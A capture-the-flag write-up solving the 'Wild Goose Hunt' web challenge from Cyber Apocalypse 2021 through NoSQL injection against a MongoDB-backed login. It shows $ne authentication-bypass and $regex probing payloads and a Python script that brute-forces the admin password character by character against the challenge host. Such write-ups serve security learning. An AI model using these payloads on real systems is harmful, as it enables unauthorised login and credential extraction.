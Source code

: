 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | Wild Goose Hunt Writeup
desc: Check out our writeup for Wild Goose Hunt for Cyber Apocalypse 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: web
challenge: Wild Goose Hunt
tags: "web, twh, sqli, nosql, python"
date: 2021-04-24T00:00:00+00:00
last_modified_at: 2021-04-24T00:00:00+00:00
---
```




> Solved by : thewhiteh4t

* We have a cool login page and source of the web app for this one
* entrypoint.sh contains the following :

```bash
    #!/bin/ash
    
    # Secure entrypoint
    chmod 600 /entrypoint.sh
    mkdir /tmp/mongodb
    mongod --noauth --dbpath /tmp/mongodb/ &
    sleep 2
    mongo heros --eval "db.createCollection('users')"
    mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
    /usr/bin/supervisord -c /etc/supervisord.conf
```

* we can see that the flag is being stored as the password of admin
* we need to somehow extract the password
* since its mongoDB first assumption was to check for NoSQL injection
* Here is the error message we get in burp for a normal attempt

![](https://i.imgur.com/P2my3g3.png)

* Lets switch to repeater here

![](https://i.imgur.com/miWWAps.png)

* so we are getting a json response and the message is being displayed in the frontend
* next i tried some basic payloads for NoSQL injection

```
username[$ne]=lol&password[$ne]=lol
```

![](https://i.imgur.com/H6Da6q7.png)

* Authentication bypassed! but we dont get any functionality in the frontend so i proceeded with more payloads

```
username=admin&password[$regex]=A*
```

![](https://i.imgur.com/NCoQigL.png)

* This is an interesting payload because we can use a wildcard to check if a particular character is present in the password or not! 
* we know that the flag is the password and flag begins with `CHTB{` so I tried that next

```
username=admin&password[$regex]=CHTB{.*
```

![](https://i.imgur.com/6ya2cBg.png)

* And it works again!
* Now we can bruteforce characters and check for success message to get correct characters
* I created a small python script for it

```python
    #!/usr/bin/env python3
    #################################
    ## Author    : thewhiteh4t ######
    ## Challenge : Wild Goose Hunt ##
    #################################
    import json
    import requests
    ip = '138.68.187.25'
    port = 31370
    url = f'http://{ip}:{port}/api/login'
    flag = 'CHTB{'
    charset = '_01234abcdefghijklmnopqrstuvwxyz'
    loop_iter = 1
    while flag.endswith('}') == False:
        for char in charset:
            if loop_iter == 1:
                payload = flag + char + '.*'
            else:
                payload = flag + '}'
            data = {
                'username': 'admin',
                'password[$regex]': payload
            }
            try:
                rqst = requests.post(url, data=data)
            except Exception as e:
                print(f'[-] Exception : {e}')
                exit()
            if rqst.status_code == 200:
                resp = rqst.text
                json_resp = json.loads(resp)
                status = json_resp['logged']
                if status == 1:
                    if payload.endswith('}') == False:
                        flag = payload.replace('.*', '')
                    else:
                        flag = payload
                        print(f'FLAG : {flag}')
                        exit()
                    print(f'FLAG : {flag}')
                    loop_iter = 0
                    break
            else:
                print(f'[-] Error : {rqst.status_code}')
        loop_iter += 1
```

![](https://i.imgur.com/6L20wKy.png)
